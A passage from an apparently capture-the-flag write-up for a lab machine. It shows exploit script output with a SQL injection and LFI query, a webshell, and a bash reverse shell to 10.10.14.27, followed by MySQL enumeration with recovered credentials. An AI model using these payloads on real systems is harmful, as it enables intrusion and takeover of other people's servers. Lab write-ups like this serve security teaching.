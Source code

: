 Output:
```
$ python3 full_rce.py 
[+] Retrieved cookie: g5af2fh98qbavba35kvcbk16f2
[+] Testing RCE...
[+] Writing webshell to run 'id'...
[+] Reading file via LFI via SQL
[+] Query used: {'id': "465' AND 1=2 UNION SELECT 'lol\\' UNION SELECT \\'/var/lib/php/sessions/sess_g5af2fh98qbavba35kvcbk16f2\\' -- -'-- -"}
[+] RCE worked!
[+] Getting shell now
[+] Payload used: bash -c 'bash -i >& /dev/tcp/10.10.14.27/443 0>&1'
[+] Triggering shell..
```

![](../../../.gitbook/assets/unattended-image-5.png)

## Privilege Escalation

There's a user `guly` on the machine, but I cannot access the flag there yet.

### MySQL Enum --> Overwrite Script Values

I found some MySQL creds earlier, may as well use them:

```
www-data@unattended:/var/www/html$ mysql -u nestedflanders -p1036913cf7d38d4ea4f79b050f171e9fbf3f5e

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 7203
Server version: 10.1.45-MariaDB-0+deb9u1 Debian 9.12

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| neddy              |
+--------------------+
2 rows in set (0.00 sec)

MariaDB [(none)]> use neddy;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [neddy]> show tables;
+-----------------+
| Tables_in_neddy |
+-----------------+
```